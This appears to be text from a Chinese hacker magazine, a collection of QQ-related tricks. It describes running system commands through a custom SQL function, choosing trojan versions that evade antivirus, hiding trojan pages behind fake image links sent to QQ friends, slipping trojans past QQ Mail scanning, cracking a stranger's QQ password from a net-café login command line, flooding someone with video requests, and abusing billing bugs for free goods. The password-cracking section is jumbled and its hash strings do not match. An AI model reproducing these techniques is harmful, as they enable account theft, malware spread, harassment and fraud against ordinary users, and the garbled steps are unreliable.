

现在就可以使用 `cmdshell` 这个自定义函数来执行系统命令了，只需要在 SQL 命令栏填入 `select cmdshell('net user')` 即可（图35），就跟在海洋木马里面执行 CMD 一样。最后提权完毕还要记得擦屁股，最好将这个自定义的函数删除掉，只需……

阿布拍了拍身上的灰尘，对燕妹妹说道：“怎么样？很好很强大吧？”燕妹妹打趣道：“不错，不错！味道好极了，用我们美国话叫 Very Good！”阿布头上不由得爆出了一个豆大的汗滴出来。

（文章中涉及到的 NBSI2.5、sqljnc.aps、SQLTools、SQL 查询分析器、su.php 已经收录在光盘中）

## 小议木马版本的选择……

相信拥有一款好用、免杀的木马一直是很多叉子的愿望，我玩木马也快一年了，对于木马版本的选择有些个人观点，特写出来和大家交流一下。

- 至于选择哪一款木马我就不说了，每个人有每个人的爱好。
- 在你选择了一款木马之后，还面临着一个选择：用哪个版本的木马？很多木马版本是一夜更新好几个，相信用过 VIP 版本木马的朋友对此会有更深的体会。
- 木马是不是一定要选最新版本的呢？我认为不一定。尽管新版本可能在刚出来时免杀，但很快会被杀毒软件查杀。
- 木马的新版本可能不兼容旧版本，更新服务端过程中还可能导致批量掉马。
- 因此，木马服务端版本的选择在很大程度上决定了免杀时间。选用功能满足需求且较稳定的版本（哪怕较旧）往往更实用。

#### 离线挂Q又一新法——梦网刷分挂Q

细路

由于本人近期学业紧张没有时间挂Q，而自己 QQ 的等级又不高，所以就上网找挂Q的网站，可是找了很久都没有找到……黑客精神不容我放弃，于是我使用手机上 WAP 网寻找，终于皇天不负有心人，让我找到了。在此就跟大家分享一下。

废话不多说了，开始挂Q工程。先准备手机一台（全程都在手机上进行）、UCWEB 浏览器（官方地址：http://wap.ucfly.com），打开 UC 登录挂Q网站：http://crack.ddbar.com……点击“刷积分看隐藏挂QQ”，进入后在“破梦网QQ”里登录你要挂的 QQ。

这是梦网的隐身显示版，收费是 1 元，但是这是破解连接免费的。登录成功后，先不要保存书签，在地址栏复制 `jessionid=` 后面的 18 位字符……返回挂Q页面，在“=积分挂Q=”和“请您刷积分>>>”下输入 jessionid 并获取 fkey 码。

最后得到空白页面，或者有这句话：“您试图订购的服务不存在 SP ID=90503，ServiceID=03010157 梦网首页（看手机情况而定）。”复制最后的 13 位数字（不包括 3D）……再回到挂Q页面，输入 13 位数字并刷 2000 积分。

积分是用来挂Q的，100 分挂 1 天。挂机天数最多 30 天。可按公式计算可挂天数：挂机天数=当月天数（30/31）—当天日期。建议每月 1 号设置挂Q，挂得最长。测试显示系统会在凌晨 3 点到 4 点左右帮你挂Q。

这里挂Q是利用移动梦网广东风采版面漏洞刷分挂Q，移动梦网的安全也做得不怎么样。有兴趣的朋友可以试下。


## 教你轻松迁移BLOG至QQ空间

小地瓜

众所周知，QQ空间是一个专属于自己的个性空间，提供与外界互动交流的功能。很多用户在拥有 QQ 空间前，已在其他 BLOG 平台（如 Sina、Sohu）建立了博客，因此会有将原有文章迁移到 QQ 空间的需求。文中介绍了通过“QQ 空间搬家工具”完成迁移的方法与注意事项。


## 只想对你说的秘密——QQ日志加密

承曦

文章讨论 QQ 空间日志隐私需求：有些日志希望仅特定对象可见。文中给出一种通过 Flash 与“禁止转载”功能配合实现“输入密码后查看内容”的思路，并说明了获取 swf 地址、拼接参数 `?key=`、设置自定义密码等步骤。


大家在得到动画地址后，在网址后增加 `?key=你要设置的密码` 即可形成可校验密码的访问链接。文中举例说明了链接拼接方式，并提示密码应自行保管。

右栏继续说明：先在 QQ 空间写日志并预留足够正文区域，再插入 Flash 模块并设置尺寸、位置与透明参数，使遮罩覆盖需隐藏内容；可加入提示文字引导输入密码后查看。


1. 登录 QQ 空间，进入自定义。
2. 新建模块并选择创建 Flash 动画模块。
3. 模块名称可自定，填写 Flash 地址与相关参数。
4. 调整模块大小、坐标与透明设置，使其覆盖目标文字区域。
5. 保存后测试输入密码查看效果。

人上面那个 FLASH 地址→更多设置随便→输入验证码→确定保存。

4. 使用鼠标调整一下 FLASH 的大小，拉到整个页面那么大。  
5. 最后点击保存。好了，添加完毕！

这个我就不演示了，可能大家都发现了一个问题，就是第一次调出动画的时候会没那么快。这是因为浏览器在第一次浏览的时候会把 FLASH 文件下载到本地保存到缓存中，第二次就从缓存中读取，速度就会快很多了。如果大家都用我的地址的话，FLASH 下载的时候会更慢，这个时候里面的内容就不保了，所以一定要自己去 http://flash.qq.com 申请一个地址，这样就能最大限度保证不丢。最后再送给大家一个刷花的代码，虽然同样不可以摘，但这个有 7 个人参果：`javascript:window.top.space_addItem(7,20981,0,2,0,1,2)`

**小编点评：**文章的总体思路就是利用可以设置密码的 flash 文件来覆盖住原本的文字，这样做表面上是可以随意设置密码，但是如果别人查看页面代码的话，直接找到这个 flash 文件的 URL 地址，就可以找到后面的 key 带的参数从而进入并且查看日记了，但总的来说思路是不错的，值得鼓励！


## QQ秀也爆最新漏洞

哼爷（牛后源）

终于盼到放假了，回到家我就打开了电脑准备开始我的黑客之旅。无意间想起了一同学叫我帮他申请一个 QQ 号，于是我就进入了腾讯的帐号申请页面（图1）。


按照腾讯的指定我填写好了相关的内容，点击下一步，系统提示：“你的帐号已经申请成功，你的帐号是 QQ：XXXXX”（图2），接着在下面还有提示，点击进入免费领取 QQ 秀（图3）。


相信大家申请过 QQ 号的话，都应该知道这个提示吧！虽然这个只能给新申请的 QQ 号免费领取，但是我们进入下面这个地址，一样的老 QQ 号都可以领取了，而且还可以无限领取，这就是 QQ 的最新 BUG。进入后的地址是：http://show8.qq.com/my/inc/reg02.html?style=1&sex=M，下面就来介绍一下利用过程，先打开以下的网址，根据自身情况而定。


比如我选择男装的网址，进入后就会有以下这几个选择：“活泼、温柔、高贵、性感、酷炫、整洁、另类”（图4）。


选择自己喜欢的类型，接着下一步是给出三个 QQ 秀供选择。就选择活泼的吧，选择一个自己喜欢的，点击选择“就要这套”后它就会显示系统连接超时，请重新登录，这是正常的，千万别怕有什么挂马之类的，这可是腾讯的官方网站（图5）。


按要求填入自己的 QQ 帐号和密码，输入完验证码后点击登录，又回到了刚才的页面。按照刚才的要求再次选择好。看看，是不是显示 QQ 秀领取成功了。然后登录自己的 QQ，点击刷新就会看到自己的 QQ 秀已经显示出来了，就这么简单。大家都快去领取属于自己的“免费”QQ 秀吧！

## QQ宝典

## 非QQ黄钻也来玩转空间域名

前阵子去朋友的 QQ 空间，发现空间等页面打出了申请个性空间域名的广告，于是我就点击进入了申请页面来进行申请。资料填写完毕后系统告诉我必须是黄钻才能申请。第二天到班级后听同学也在谈论这件事，大概就是说为了申请到个性空间域名，花了 10 个大洋买了黄钻。其实早就有人想到腾讯会推出空间域名这招来诱惑消费者，所以一些朋友早就把免费个性空间域名给准备好了。

打开浏览器，输入 `http://www.ggqz.com/qq/` 或者 `http://www.mmqz.com/qq/`（图1），在上面填写你的 QQ 和你的性别（就是 GGQZ.COM 或 MMQZ.COM）后点击“检查是否可注册”来进行检测。如果你的域名没有被别人申请的话就会出现提示，然后点击下面的“立即申请QQ空间域名”，将申请地址放在 QQ 资料里就可以了（图3）。

来检测一下是否可用，点击图中的任一网址，正常进入了我的 qzone（图4），就这么简单，个性域名就有了。黄钻的域名必须是数字+字母而且还有长度要求，而这个域名没有这两个要求，还不赶紧让 QQ 空间域名也个性一下！


## 打造诱人的QQ尾巴链接

对于 QQ 尾巴大家都听说过，但是现在就连我弟弟都知道不可以点那些链接了。那么，怎样才能让 QQ 尾巴发挥得淋漓尽致呢？大家先把这段代码保存为 `*.htm`：

```html
<title>http://www.baidu.com/img/logo.gif</title>
</a>
```

保存打开后，再使用 IE 打开 `http://www.baidu.com/img/logo.gif`，把两个页面对比一下（图1），看起来相近但还是不同。因为前者可以在源码中加段 `<iframe src="*" ...>`，于是你把 `www.xxxx.com/*.htm` 使用 QQ 发给别人，别人会以为是普通图片链接而打开。

一般的网站空间都有自定义的 404 页面（有的为广告或提示），如果没有的话，在根目录放一个 `.htaccess` 文件（可用于自定义 404 页面）。


参见 `http://baike.baidu.com/view/91163.htm`，我们就可以利用它来掩饰我们的真实地址了。

> 小知识：404 页面定义——当用户试图通过 HTTP 或 FTP 访问一台服务器上不存在的网页时返回的错误页面。

## QQ宝典

> 在运行 Internet 信息服务（IIS）的服务器上的内容时，IIS 会返回一个表示该请求的状态的数字代码。该状态代码记录在 IIS 日志中，同时也可能在 Web 浏览器或 FTP 客户端显示。状态代码可以指明具体请求是否已成功，还可以揭示请求失败的确切原因，而 404 就是指未找到所测试的网页。

知道了 404 是什么意思就好办了，如果把上文那段代码加上注册码伪保存为 404.htm，再将空间中的 404 错误指向这个页面（这个设置页面是空间服务提供的，并不是每个主机都会有），如图2，然后再发给 QQ 好友一个类似 http://www.xxx.com/picture/20071212/mei1.jpg 的链接（这个图片文件是不存在的，目的为削弱对方警惕性和转向挂马的 404 错误页），那么他会点吗？

来测试一下，正好借助《色戒》电影疯狂传，如图3。


啊啊，成功了，打开后的页面如图4所示。我们的任务就是把类似的链接制作得越逼真越好，解说越诱惑人越好！如果像图5所示那样进行发送呢？手机发送还没听过有带 QQ 尾巴的。

本来利用 404 页面挂马是我们在人侵过程中一个很常用的挂马方式，效果好又不容易被察觉，这次用在了 QQ 尾巴上。当你给别人发送一个图片链接时，对方很容易就会去点击查看（这也要求对方具备一定的网络常识和惯性思维，碰到草木皆兵的菜鸟就不行了）。因为这种方法适用于 QQ 好友，所以大家不要遗失自己的信用哦！

（本文所涉及到的代码和页面已收录到光盘中）

清晨 say 晚安

## 跳过QQ问题验证

看着 QQ 上蛮多无几个人 QQ 图像在亮着，找不到人说话了，心里真是有点闷闷。是该动动好友了！于是我打开“查找”，寻找和自己差不多失落的人加了起来，顺利地加了几个好友后，突然弹出了一个需要回答问题后才能加对方为好友的 QQ 问题，是“我爱的女人是‘李丫’！”我要是这么了解你，那我还加你干嘛。我们正准备关掉它然后再去添加第二个好友，但是忽然想到了 QQ 不能加你，但是腾讯还有个 TM 啊，TM 也不能加吗？我赶忙切换到 TM，点击“添加和查找”，输入他的 QQ 号码，那个该死的问题窗口没有出来，顺利地加对方为好友了。然后我又切换到 QQ 状态，他已经安安静静地在我 QQ 好友里驻着了！

## 来号搞定另类的QQ密码——

冰河

在看了 07 年第 9 期杂志的“另类的QQ密码攻与防”一文后，感觉作者的思路非常好，可是后来我仔细想了想，感觉作者考虑的还是有些不周全，下面就看我如何搞定另类的 QQ 密码吧。

首先，o 和 0 混用法在网页中虽然看不出有什么不同，但是我们把密码粘贴到记事本中就能轻易分辨出来了（图1）……我专门写了一个分辨密码的小软件（图2），只要把密码复制过去，点击“分辨”按钮就可以分辨出来了（图3）。

看到了吧，已经把我们不认识的字符转换成能辨认的了……“没有绝对的安全”，同时也希望大家不要去搞破坏，玩玩就好了，学到技术才是最重要的。

（本文所涉及到的 BT 密码分辨器已收录到光盘中）


## 让来号都来分享我的QQ心得

- 如果你有以下症状的话请看本文：
  1. 费了很大的劲终于好不容易买了个QQ，却被人家不小心给弄丢了。
  2. 因为有人代练的缘故，手里的一堆QQ没有时间查Q。
  3. 想要 5 钻会员等业务，却一没 MONEY，二没 QB，三没 RP（55555，没人要哦）。

本文针对以上症状通杀，并且药到病除，价格嘛，免费。好了，下面就开始进入主题吧。

##### 一、轻松设置安全密码

关于 QQ 安全的文章有很多，但大多数人都认为只要设置了强度高的密码或借助第三方软件，我们的 QQ 就安全了……第三方软件更是漏洞连连，那么正确的方法该如何做呢？

目前大部分盗 QQ 的人都会使用软件来整理盗窃的 QQ 号码……一般的收信 QQ 格式为：“123456——123456——218.23.173.94——安徽省亳州市”（图1）。

然而这款软件在设计上却有缺陷，假如我们的密码为“123456—”，“—”也会被软件忽略掉（图2），因此就算不小心密码被盗了，对方扫描到的结果也是密码错误……进而保证了我们 QQ 的绝对安全。

### 二、批量分析整理号码、扫QQ信

首先启动 QQ 号码分析 1.7，然后导入号码（格式也为 QQ 号——密码），程序会自动列出所有的号码（图3），还支持自定义筛选，例如要查询 7 位 AAA 开头的号码……


| 序 | QQ   | 状态 | q币 | 密保 | Q点 |
|---|------|------|-----|------|-----|
| 1 | 6465 | 密误 |     |      |     |


## 三、另类“刷”QQ业务

以前刷QQ业务的方法都不好使了，是不是没辙了？这里我要教大家的是使用手机卡刷5钻会员业务。普通卡可能很快失效，这次的主角是“GSM预付费手机卡”，一般8—15元一张，送20元话费，可以用来刷业务。这个卡最大的优点是欠费后还可以发短信（只能发服务信息，不能发给手机号），可以用来防止腾讯冻结业务。

（本文所涉及到的QQ号码分别为1.7，XQQ 1.2已收录到光盘中）


## 菜鸟们的QQ空间成名路

相信不少朋友都拥有自己的QQ空间吧，许多人都在QQ空间上投入了很大的精力和不少的心血，他们的QQ空间也许内容丰富、页面精美华丽，但人气和知名度却总是不高。要想在浩如烟海的QQ空间里拥有一定名气并不容易，不仅需要新颖多彩的内容、华美的界面，更要有高超的技术。相信看了这篇文章后，或许这一切就会变得简单了。

## 第一招：打好成名基础——QQ空间人气疯狂刷

空间人气是决定你空间出名与否的最重要因素。很多人以为人气显示到200就满了，但实际并非如此。打开www.qzone.qq.com，登录后在左上方可以看到你QQ空间的真实人气与世界排名。接下来可借助QQ空间人气软件提升访问量。软件支持“普通模式”和“VIP模式”；普通模式下约6秒钟刷一点人气，注册用户可更快。使用时输入目标QQ号，选择模式，软件会显示当前已刷次数、用时、预计每小时刷多少等信息。还可导入多个小号批量操作，自动轮换以持续增加人气。


既然已经知道了人气的重要性，我们就要在人气上下工夫。网上用于刷QQ空间人气的软件有很多，这里精选一套免费的软件。打开QQ空间人气精灵V3.88贺岁版，其主界面如图2所示。软件还提供了导入号码、批量导入等功能，便于持续刷人气。


## QQ宝典

记事本保存格式为“号码——密码”，这样也方便下次的使用。腾讯规定一个IP一天最多申请3个QQ，我们可以使用代理轻松突破这个限制。同时，我们更提倡分享，可以到软件论坛上的号码共享版块分享使用。另外，软件还支持自动关机……我们可以看到中间信息栏开始变化，可以看到我们刷了多少人气，如图4。这个工具的使用还算简单吧。


## 第二招：搞好QQ空间人气关系，构建大范围朋友圈

你的QQ空间一般都是谁来看？肯定是好友来看了！所以，构建一个大范围的空间好友圈是尤为重要的。如何构建呢？这里就用到了一款软件：“QQ空间小秘书V1.86贺岁版”……其工作界面如图6所示，你可以给自己的好友快速留言、快速回复，但需要输入验证码。接下来介绍上次没有提到的特色功能——“超级互踩计划”……只要你日复一日地坚持下去，你的空间成名就指日可待了！


## QQ游戏形象洗刷刷

QQGame2006beta2版本以上的游戏大厅已经开始支持QQ游戏角色系统。QQ游戏角色系统是全新的in-game角色系统，是玩家在QQ游戏中形象的化身。如果你喜欢QQ游戏，那么你肯定对那一套套酷炫的角色形象非常感兴趣吧。


我们先来到“游戏商城”，虽然这里有免费区（图1），但免费物品多是游戏表情。想不想免费得到花钱的东西呢？下面大家就一起收获天上掉下的馅饼吧！在“牌类游戏”中找到斗地主，进入“北方专区”（网通，角色版）……在下面会弹出一个“创建您的QQ游戏角色”的窗口（图3）。在这里可以建立一个游戏角色，整个过程只需要两步就可以完成（图4），成功创建后系统还会赠送3Q币的购物券。


> **QQ游戏购物券的使用说明：**
>
> QQ游戏购物券可以在QQ游戏商城内使用；不支持购买道具和主题专区栏下的物品；购物券的有效期仅限于当月购买，且会在每月月底清空，务必在有效期内使用。


淘一淘你喜欢的吧（图6）。


建立的游戏形象可以直接显示，在“我的物品”中可以查看到（图5），价值10几个QQ币呢，而且是两个月的使用期限。3Q币的购物券当时可能无法显示，只要你退出游戏然后再次登录就可以了，其他使用方法参考QQ游戏购物券的使用说明。不论服饰还是表情中都有相当多的3元以下的物品，快去。

3Q币的购物券不过瘾，一会儿就用完了，没关系，换个QQ号继续刷，再赠送给你的主号就可以了。QQ游戏商城中的物品是可以累积时间的，多买几次就可以延长使用时间。这或许可以算是QQ游戏的一个小BUG吧，小菜们抓紧时间多刷点QQ游戏商城中的物品吧！

## 挂Q宠，我的劲都行！

ssshhhwwyyy


春节期间腾讯公司按照惯例，对QQ聊天软件增加了QQ2008贺岁版（QQ2008 Spring），同时QQ宠物版本也提升到了2008版，其实早在QQ2007 II版本时QQ宠物就已经升到了2008版。对于我们这些QQ爱好者可以说这是利弊并存，有利的方面是我们可以体验到新版QQ宠物带来的娱乐，有弊的方面是我们原来的挂宠软件更新太慢，只能眼睁睁地看着自己的宠物不能挂机，好不容易等到了软件更新，结果却又因为BUG太多而影响使用！怎么办呢？各位别急，因为解决的方法很简单。虽然更新了宠物资源包，但是我们的关键词没变。

使用07版本的主要文件覆盖掉新版的文件。经过测试只要覆盖掉QQ文件夹QQPet中的QQPenguin、QQPetCommunity.dll、QQPetResDownload.dll这三个文件就可以瞒天过海（图1），继续使用我们的旧版本宠物软件了（图2），真是居家旅行，挂宠必备哦。挂上宠物，我们就可以去喝咖啡咯！（本文所涉及到的07版QQ宠物文件已收录到光盘中）


## 腾讯接招——QQ音乐继续破解


在前几期的黑客X档案里曾经介绍过QQ音乐的免费添加方法，既有通俗易懂的方法，也有稍微复杂一些的方法。或许是腾讯发现了自己在QQ音乐这方面的缺陷吧，所以就做了一些处理，导致使用以前介绍的方法获得的音乐都无法播放，更别说下载了。我稍微研究了一下便发现了其中的原因。

##### 一、为什么以前的地址失效了

以前抓包得到的音乐地址，比如http://stream*.music.qq.com/*.wma已经失效了。看起来好像是腾讯做了一些限制，但实际上腾讯只是对地址稍微进行了修改。我反复抓包后确定，只需要把原地址http://stream*.music.qq.com/*.wma中的music改为qqmusic，得到的新地址http://stream*.qqmusic.qq.com/*.wma就是新的音乐地址了。

##### 二、获取音乐地址

首先在空间音乐盒里搜索音乐，找到后复制该歌曲后面“试听”按钮的地址，如图1。然后把地址里的数字与这个地址（http://stream*.qqmusic.qq.com/◆.wma）里的符号进行替换，使用第2个数字10替换掉★，第一个数字10410707将其第2个数字改为2，也就是12410707并替换掉◆，得到音乐源地址，当然也可以抓包得到。

URL的转换，在去年12月的杂志中介绍了301url.com。不过这个网站有时候不稳定，甚至有时候服务器会出故障。所以我给大家推荐另一个网站THNLNK，其具体网址为http://thnlnk.com/ThnLnk，如图2。将得到的音乐地址填入Link/URL那一栏，在Title那一栏随便填写5~7个单词（英文的，以空格分开），最后点击“ThnLnk it!”，就会出现如图3所示的几个地址。这些地址都是有效的，推荐大家从最下面那2个地址中选择一个填入QQ空间添加歌曲的地址栏中（注意：只能在添加歌曲的时候填写地址，过后再修改成这个地址就没用了）。


### 三、将音乐添加至QQ空间

腾讯以前就已经做了限制，不能添加诸如http://stream*.qqmusic.qq.com/*.wma形式的音乐地址。所以就需要进行URL转换。

##### 四、最后

腾讯还真是小气，连音乐也不给我们小菜鸟用。我们就只能“偷”了。今后不知道腾讯又会出什么怪招，不过我们见招拆招，也就不用怕它了。

## “红豆”与免费QQ秀


如何获得免费的QQ秀呢？相关的文章以前的X档案上也曾刊登过不少，但唯一的问题就是这类文章的时效性都很短，方法很容易过时。今天我们同样为大家介绍一种免费获得QQ秀的方法，大家一定要抓紧时间啊。

经常玩QQ的朋友都知道最近QQ新增了一个叫做“红豆”的道具，我们今天无限改刷QQ秀用到的就是它。首先申请一个新的QQ号，申请成功后我们单击第二排的第一个图标，就是“免费领取QQ秀”，如图1。

接着就会出现许多漂亮的QQ秀供我们选择了，选择一套自己喜欢的QQ秀，单击“我要这套”，如图2。好了，接着就会出现如图3所示的页面，提示我们注册QQ秀成功，并赠送我们2500个红豆，呵呵，这下有的用了。

在此之前我们先看一下腾讯的最新规定，如图4。从图中我们可以看出，使用红豆可以将系统赠送给我们的QQ秀转赠给他人，呵呵，想到怎么利用了吗？选择上面“我的QQ秀”标签，然后在“我的物品”里面就可以看见系统免费赠送我们的QQ秀了，如图5。还等什么，快点赠送吧，如图6。怎么样，原本无法送出的QQ秀现在已经可以送人了。赠送一套需要100个红豆，而现在手头上有2500个红豆，足够我们使用的。


中填入我们的大号，单击立即赠送就可以了，是不是很简单呢？特别提醒一句，不要忘记先在你申请的新QQ号中加你的大号为好友。同时因为腾讯的限制，新加好友必须7天以后才可以赠送QQ秀，下面我们能做的只有等待了。还有，赠送QQ秀时不要忘记将已穿上的QQ秀全部脱掉，否则是无法赠送成功的。


#### 黑Q舍本逐利

## 什么是SA权限

SA是MSSQL数据库的默认管理员账号，拥有系统权限。第一次安装MSSQL时，如果没有或过于简单地设置SA的密码，别人就很容易猜解你的密码，通过SQL连接器等工具连接到你的1433（MSSQL默认端口），利用扩展存储过程执行系统命令。注入时也有很大几率碰到SA账号启动的数据库，基本上就可以拿到系统权限。所以现在很多网站都不用SA账号连接数据库，保证服务器安全。


## QQ空间也克隆

今天给大家介绍一个可以克隆QQ空间的网站，网址是`http://www.qzone6.com:8080/`，打开后的界面如图1所示。


页面右边有几个服务器登录按钮，我们找一个人少的点击登录，然后输入QQ号和密码，点击进入系统，如图2。接着会出现如图3所示的页面，在这里我们可以克隆别的空间，只需要填写对方QQ号码，点击“开始复制”即可。


日前腾讯已经封了大量免费皮肤代码，造成非黄钻用户克隆空间效果下降；如果自己是黄钻用户，才能克隆出和对方完全一样的空间装扮。被克隆的空间如图4所示，而测试空间如图5所示，可以看出效果大体一致。

## 菜鸟也来玩转QQ邮箱

##### 一、附件查毒出漏洞

本想给好友发送一个能够躲过金山查杀的木马，却被QQ邮箱的卡巴斯基查毒引擎给拦截住了，也正因此发现了QQ邮箱在附件查毒上的一个小漏洞，且听我仔细道来。


首先把一个未经免杀的木马文件上传到中转站，可以看到上传成功并没有被拦截。接下来通过“添加超大附件”方式作为普通附件发送，这次木马文件并没有受到查毒引擎阻拦，成功发送出去。使用这种方式木马保存时间会受QQ会员等级影响。


##### 二、空间更新邮箱看

如果小菜们钟情于QQ邮箱的话，那么当你的邮箱升到六级以上时就能够收到系统发来的邮件，通知你有新的功能可以使用，如图3。按照邮件的说明，我们可以发现在侧栏多出了一个“我的阅读空间”（如图4）。当好友的空间里有更新的话，都会在这里集中显示出来，省去了我们挨个空间查看的麻烦。而且更重要的是，即便你无法进入好友加过密的空间，只要对方的空间进行过更新，其更新的内容均能够出现在这里。不仅如此，如果你的朋友有其他博客的话，可以点击“添加订阅”来添加你希望订阅的博客（图5）。这样，QQ邮箱可就真的成了你驰骋所有博客的窗口了。至于如何将QQ邮箱升到六级，大家可以随便申请一个新邮箱，多用QQ邮箱向它发些邮件就行了。


以上就是我的新发现了，希望能够给各位带来一些方便。要是大家也有什么好的新发现，希望也写出来与我等菜鸟分享一下哟。

#### 远程视频嗅探器漏洞大揭秘


这天在网上看到了一款名叫“远程视频嗅探器”的软件，居然不用种木马就可以强制视频，感觉好神奇。既然有这么牛的东西，我当然要好好研究一下了。共有三个dll文件，一个主程序和一个注册机（其实也就是木马），如图1。

运行主程序，在界面下方的“对方IP地址”栏填入被视频方的IP地址（图2），然后点击“连接”，程序提示说需要注册（图3）。

再一看文件夹，居然还有个注册机，刚一执行完注册机，就自动删除了。哎，又中马了。先不管木马了，看看自己能不能破解掉这个牛X软件。使用OD打开主程序，却怎么也找不到提示语之类的线索，那该怎么办呢？使用eXeScope打开别的文件试，结果在camrea.dll资源中的DRV有个ID为6000的……

## QQ密码也来本地破解

无敌小龙


我经常在网吧上网，在输入登录卡的账户和密码，进入WINDOWS界面后，经常会碰到这样一种情况——之前的某位上网者直接退出了网吧管理软件，却忘记关闭自己的QQ，如图1。


于是，一个邪恶的念头就油然而生：修改对方的QQ密码，让对方知道没有安全意识是多么愚蠢的一件事！QQ在登录时实际上是依靠登录命令来进行登录的，相信以前看过杂志中关于编写QQ防盗号登录器的朋友都应该知道，QQ登录的命令类似于“/START QQUIN:5450913 PWDHASH:被加密过的QQ密码”。其中，这个“被加密过的QQ密码”使用的密码加密方法为BASE64算法+MD5算法。既然我们已经有了部分思路，解决的方法就相对简单多了。


首先给大家介绍一款工具——Process Viewer，它可以捕捉程序登录时的命令行，如图2。我们就是要用它来捕获登录的命令行，从而得到加密的密码。但是，要捕获QQ登录的命令行，就需要让QQ重新登录一次。那么，如何让QQ重新登录呢？有两种方法可以做到，一个是选择QQ界面上的“离线”功能，然后再选择“上线”，如图3。另一个就是选择“更新好友”，如图4。


我选择使用第二种方法重新登录后，来到Process Viewer的进程查看项，选择QQ的进程，点鼠标右键，然后在弹出的快捷菜单中选择“启动信息”，如图5。在弹出的对话框中就可以看到这段信息：

```text
/START QQUIN:5450913 PWDHASH:zfPkxJwyqL8vwsWxeBqTIA==
```

其中，zfPkxJwyqL8vwsWxeBqTIA==就是被加密后的密码了，如图6。

`1781a9320`，这段字符串就是经过 MD5 算法加密过的 QQ 密码，如图 8。

关于破解 MD5 密码，在杂志的入侵文章中已经不止一次介绍过了。我们来到 www.cmd5.com 这类在线 MD5 密码破解站点，输入 MD5 字符串，然后单击“解密”按钮，只要对方的密码不够强，就可以破解出来，如图 9。本文已经给了各位小菜一个本地破解 QQ 密码的新思路，还等什么，赶快去实践吧！

既然密码使用了 BASE64 + MD5 加密，那么首先就来 BASE64 解密。关于 BASE64 解密，可以使用强大的口令破解工具 Cain。

运行 Cain，选择“工具”菜单下的“Base64 口令解码”，如图 7，输入 `fPkxJwyqL8vwsWxeBqTIA==`，马上获得 BASE64 解码后的字符串为 `cdf3e4c49c32a8bf2fc2c5b781a9320`。

> （本文所涉及到的 ProcessViewer 和 Cain 已收录到光盘中）

#### 突破 QQ 视频限制——再次利用视频攻击

最近一位同学不停地骚扰我，导致我心情急速下降……一时没有肉鸡在手，无法进行恐怖的 DDOS 攻击。在网上找到个大仙 QQ 视频攻击，但是 BT 的腾讯已经作出限制，在 15 秒里不能进行 2 次的视频请求。我又在网上搜索了半天，也没找到怎么突破 15 秒的限制。后来在玩 FLASH 游戏的时候，用到了变速精灵，可以把 Flash 的速度变快或变慢，这个是不是也能用到突破 QQ 视频的 15 秒限制呢？马上动手来实验一下。

我先打开一个 QQ 的对话框，然后在变速精灵的“变速方法”里找到 QQ 的对话框选项，回到界面把速度调节到“快”的那一端（图 1）。

点击“变速”后，先把屏幕分辨率调成 1024×768，因为大仙 QQ 视频攻击只支持这个分辨率（图 2），然后把攻击器对准聊天窗口，尤其视频摄像头的图标一定要对齐才行（图 3），点“开始攻击”对方就有好受的了，停止则是按下键盘的 F3 即可。

> （本文所涉及到的变速精灵和大仙 QQ 视频攻击器已收录到光盘中）

## QQ 宝典

#### QQ 密探帮你查好友

看着 QQ 里长长的联系人名单，有多少人真的是我的“好友”呢？你都变成了谁的“陌生人”呢？QQ 好友密探可以帮你解答这些问题。这个软件能帮你分析出你的好友中有谁已经将你从好友中删除了。

打开 QQ 好友密探，其界面如图 1 所示。首先登录需要查询的 QQ 号码，点击左上方的“账号登录”，输入你的 QQ 号和密码登录（图 2）。然后点击“获取好友”，你的全部好友信息就会出现在左边的框中了。最后选择“分析关系”，如果你的好友不多的话，一会儿工夫，就会显示完成（图 3）。

从分析结果中可以清楚地看到，显示“对方的好友”表示你是对方的好友，而显示“您不是 Ta 的好友”则表示对方已经将你从他的好友中删除了。另外，在工具最底下也会显示出数字统计，包括好友总数、已将您删除的好友数量等。

看到有许多好友都没有加我，心里很伤心，怎么办呢？送他们一点小礼物吧。正好，万象和腾讯在搞活动，免费赠送 QQ 秀购物券、QQ 空间购物券、QQ 音乐下载和 QQ 的 7 天会员。

